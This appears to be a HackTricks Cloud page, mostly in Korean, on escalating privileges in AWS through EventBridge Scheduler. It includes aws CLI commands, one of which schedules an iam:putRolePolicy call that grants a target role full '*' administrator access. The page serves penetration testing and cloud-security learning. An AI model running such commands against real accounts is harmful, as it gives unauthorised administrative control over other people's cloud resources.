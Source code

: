 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler는 다양한 AWS 서비스에 대한 호출을 예약하여 권한 상승에 사용할 수 있습니다. 예약된 방식으로 서비스를 호출할 수 있는 능력을 활용하여 충분한 권한을 가진 사용자는 권한을 상승시킬 수 있습니다. EventBridge Scheduler가 템플릿 대상 사용하여 트리거할 수 있는 주요 작업은 다음과 같습니다:

- Lambda: lambda:InvokeFunction - 예약된 Lambda 함수를 호출합니다.
- CodeBuild: codebuild:StartBuild - AWS CodeBuild 프로젝트를 시작합니다.
- CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipeline 실행을 트리거합니다.
- ECS: ecs:RunTask - ECS 작업을 실행합니다.
- EventBridge: events:PutEvents - EventBridge에 이벤트를 넣습니다.
- Inspector: inspector:StartAssessmentRun - Amazon Inspector 평가를 시작합니다.
- Kinesis: kinesis:PutRecord - Kinesis 스트림에 레코드를 넣습니다.
- Firehose: firehose:PutRecord - Firehose 배달 스트림에 레코드를 넣습니다.
- SageMaker: sagemaker:StartPipelineExecution - SageMaker 파이프라인 실행을 시작합니다.
- SNS: sns:Publish - SNS 주제에 메시지를 게시합니다.
- SQS: sqs:SendMessage - SQS 큐에 메시지를 보냅니다.
- Step Functions: states:StartExecution - AWS Step Functions의 실행을 시작합니다.

이들은 EventBridge Scheduler가 수행할 수 있는 템플릿 작업 중 일부에 불과합니다. 그러나 범용 대상을 사용하면 AWS 서비스 전반에 걸쳐 많은 다른 작업을 호출할 수 있습니다. 범용 대상은 템플릿 목록을 넘어 더 광범위한 API 작업을 허용합니다.

EventBridge Scheduler에 대한 더 많은 정보는 다음에서 확인할 수 있습니다:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

`sts:AssumeRole`, `iam:PassRole`, 및 `scheduler:CreateSchedule 또는 scheduler:UpdateSchedule` 권한을 가진 사용자는 EventBridge Scheduler를 활용하여 더 높은 권한을 가진 역할을 사용하여 서비스를 호출함으로써 권한을 상승시킬 수 있습니다.

이러한 권한을 가진 공격자는 권한이 상승된 역할을 가정하고, 일정을 생성하거나 업데이트할 때 그 역할을 EventBridge Scheduler에 전달할 수 있습니다. 일정은 이전에 나열된 작업 중 어떤 것이든 수행하도록 구성할 수 있으며, Lambda 함수를 호출하거나, ECS 작업을 시작하거나, CodePipeline 실행을 트리거하거나, EventBridge Scheduler에서 지원하는 270개의 AWS 서비스의 어떤 작업이든 수행할 수 있습니다. 이러한 작업을 예약함으로써 공격자는 더 높은 권한을 남용하여 AWS 서비스 전반에 걸쳐 무단 작업을 수행할 수 있습니다.
\\

예를 들어, 그들은 템플릿 작업인 Lambda 함수를 호출하도록 일정을 구성할 수 있습니다:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
EventBridge Scheduler에서 템플릿 서비스 작업 외에도 다양한 AWS 서비스에 대한 광범위한 API 작업을 호출하기 위해 유니버설 대상을 사용할 수 있습니다. 유니버설 대상은 거의 모든 API를 호출할 수 있는 유연성을 제공합니다. 한 예로 "putRolePolicy" 정책이 있는 역할을 사용하여 "AdminAccessPolicy"를 추가하는 유니버설 대상을 사용할 수 있습니다:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
